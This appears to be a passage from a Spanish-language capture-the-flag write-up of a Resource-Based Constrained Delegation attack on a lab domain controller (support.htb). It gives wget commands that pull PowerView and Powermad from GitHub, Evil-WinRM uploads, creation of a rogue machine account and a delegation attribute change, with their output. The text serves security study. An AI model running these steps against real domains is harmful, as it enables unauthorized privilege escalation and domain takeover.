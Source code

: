 La cuenta `support` posee permisos `GenericAll` sobre el grupo `Account Operators`. Este permiso nos da control total sobre el grupo. El objetico de un ataque RBCD es impersonar a un usuario privilegiado sin conocer ni su contraseña ni su hash `NTLM`

### RBCD Attack - Setting up Tools

Para este ataque usaremos dos herramientas programadas en `powershell`: `PowerView` y `Powermad`. Descargaremos las herramientas en nuestro directorio de trabajo usando el comando `wget`

~~~ bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1 

wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1
~~~

Aprovechando la conexión que podemos hacer mediante `winrm`, subiremos las herramientas y las importaremos en la máquina víctima

~~~ bash
*Evil-WinRM* PS C:\Users\support\Documents> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> upload Powermad.ps1

*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\Powermad.ps1
~~~

Para iniciar el ataque crearemos una nueva cuenta en la máquina, usaremos esta cuenta para establecer RBCD

~~~ bash
*Evil-WinRM* PS C:\Users\support\Documents>  New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = SERVICEA$
Verbose: [+] Distinguished Name = CN=SERVICEA,CN=Computers,DC=support,DC=htb
[+] Machine account SERVICEA added
~~~

Asignamos el atributo `PrincipalsAllowedToDelegateToAccount` a la cuenta `SERVICEA`, esto autoriza a esta cuenta a suplantar usuarios dentro del Domain Controller

~~~ bash
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount SERVICEA$
~~~

Comprobaremos que el atributo se haya asignado con el siguiente comando, debemos ver la cuenta `SERVICEA` en el output

~~~ bash
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=support,DC=htb
DNSHostName                          : dc.support.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : afa13f1c-0399-4f7e-863f-e9c3b94c4127
PrincipalsAllowedToDelegateToAccount : {CN=SERVICEA,CN=Computers,DC=support,DC=htb}
SamAccountName                       : DC$
SID                                  : S-1-5-21-1677581083-3380853377-188903654-1000
UserPrincipalName                    :
~~~
